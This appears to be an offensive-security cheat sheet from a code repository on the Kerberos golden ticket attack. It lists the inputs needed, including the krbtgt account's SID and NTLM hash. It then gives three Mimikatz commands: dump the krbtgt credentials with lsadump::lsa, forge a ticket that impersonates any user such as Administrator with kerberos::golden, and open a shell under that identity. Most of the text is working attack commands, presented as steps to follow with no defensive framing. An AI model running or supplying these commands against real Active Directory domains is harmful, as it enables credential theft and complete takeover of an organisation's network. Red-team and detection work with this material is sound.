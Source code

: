 # Golden Ticket Attack

With just a couple pieces of information, you can create a ticket that can be used to impersonate any user across the domain.

## Required pieces of information

1. The name of the user account to impersonate
    * i.e., Administrator
2. The user ID of the user account to impersonate
    * i.e., 500
3. The name of the domain
    * i.e., hydra.test
4. The SID of the Kerberos Ticket Granting Ticket (**krbtgt**) account
    * i.e., S-1-5-21-849420856-2351964222-986696166
5. The NTLM hash of the Kerberos Ticket Granting Ticket (**krbtgt**) account

## Mimikatz

Run *lsadump::lsa* against the **krbtgt** account to obtain its SID and NTLM hash.

```powershell
mimikatz: lsadump::lsa /inject /name:krbtgt
```

![Obtaining information for golden ticket using Mimikatz's lsadump](images/golden-ticket-lsadump.png)

Create the golden ticket.

```powershell
mimikatz: kerberos::golden /user:$TARGET_USER_NAME /domain:$DOMAIN_NAME /sid:$KRBTGT_SID /krbtgt:$KRBTGT_NTLM /id:$TARGET_USER_ID
```

![Creating a golden ticket using Mimikatz](images/golden-ticket-kerberos-golden.png)

Open up a new command prompt that leverages the golden ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc::cmd
```
